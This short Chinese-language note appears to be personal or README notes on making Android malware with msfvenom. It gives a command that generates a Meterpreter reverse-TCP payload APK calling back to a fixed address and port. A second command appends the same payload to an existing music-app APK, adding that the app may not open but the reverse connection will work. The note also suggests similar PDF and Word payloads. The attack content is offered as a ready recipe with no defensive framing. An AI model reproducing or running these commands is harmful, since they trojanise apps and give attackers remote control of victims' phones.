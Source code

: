 `msfvenom -p android/meterpreter/reverse_tcp lhost=172.20.10.88 lport=3333 R > en.apk`

加一个 `R` 可以正常使用

`msfvenom -p android/meterpreter/reverse_tcp lhost=172.20.10.88 lport=3333 R >> 废柴音乐v2.0.apk`

附加模版上去，不一定能打开，但一定能连返回链接

> 可以使用类似的`pdf`，`word` 等 ayload 来实现返回链接
